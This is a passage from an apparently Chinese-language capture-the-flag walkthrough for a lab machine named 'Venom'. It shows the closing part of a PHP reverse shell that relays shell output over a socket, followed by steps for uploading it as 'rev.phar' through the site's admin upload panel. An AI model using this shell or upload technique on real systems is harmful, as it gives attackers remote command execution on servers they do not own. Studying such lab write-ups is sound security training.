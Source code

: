             if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
            }

            if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
            }
        }

        fclose($sock);
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($process);

        function printit ($string) {
            if (!$daemon) {
                print "$string\n";
            }
        }

        ?>
        ```
3. 上傳 reverse shell
    - 在 http://venom.box/ 上點擊齒輪圖示進到管理者頁面 (http://venom/box/panel)，點擊右方 content > uploads 進到上傳區
        <img src="VenomUpload.png" alt="Go to upload" width="100%" />
    - 上傳準備好的 reverse shell `rev.phar`